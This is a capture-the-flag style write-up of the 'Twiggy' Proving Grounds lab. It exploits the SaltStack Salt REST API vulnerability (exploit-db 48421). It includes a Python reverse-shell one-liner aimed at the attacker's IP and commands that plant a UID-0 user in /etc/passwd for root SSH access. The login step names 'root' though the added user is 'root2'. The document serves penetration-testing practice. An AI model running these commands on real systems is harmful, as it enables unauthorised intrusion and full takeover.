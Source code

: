 ```yaml
---
description: Writeup for Twiggy from Offensive Security Proving Grounds (PG)
---
```


# Twiggy

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.62 -t full`

`nmapAutomator.sh -H 192.168.134.62 -t vulns`

![](../../.gitbook/assets/4591f23d66844cfa8e3dfe365c0c0863.png)

### Port 80

Mezzanine is running.

![](../../.gitbook/assets/9777714328414f029c1c70fb5902d558.png)

### Port 8000

The SaltStack Salt REST API is running.

![](../../.gitbook/assets/7ef843ff98d74ead9c22591945e47d6f.png)

## Exploitation

SaltStack < 3000.2, < 2019.2.4, 2017.\*, 2018.\* is vulnerable to an RCE vulnerability.

Exploit from: [https://www.exploit-db.com/exploits/48421](https://www.exploit-db.com/exploits/48421)

![](../../.gitbook/assets/586b49ee1e844709bb90a376b7f43e92.png)

We can try to execute a reverse shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.134",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

However, this does not work (presumably because of the firewall).

We can, however, read arbitrary files, including `passwd` and `shadow`.

![](../../.gitbook/assets/ee4085800b784b38bf5014c53ef3fb21.png)

![](../../.gitbook/assets/59b5700fa986437db1c089123cf13f86.png)

We can also write arbitrary files. To add our own root user to `/etc/passwd`:

```bash
echo "root2:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> passwd
```

Note that this hash corresponds to our custom password, `mypass`.

```bash
$ openssl passwd mypass                                                    
bWBoOyE1sFaiQ
```

Upload the modified file: `python3 48421.py --master 192.168.134.62 --upload-src passwd --upload-dest ../../../../../etc/passwd`

![](../../.gitbook/assets/8461c72141664918a8f64d118b3028af.png)

Check that our user was correctly added:

![](../../.gitbook/assets/83e1acb549034264a3408e7cba2251e3.png)

Now, using the `root:mypass` credentials, we can SSH into the server as root. This works because password authentication is enabled.

![](../../.gitbook/assets/4994407277db4fe9a3fee4fb462816df.png)

![](<../../.gitbook/assets/7c8646a82aac4f17bf9cba7da5de13b6 (1).png>)
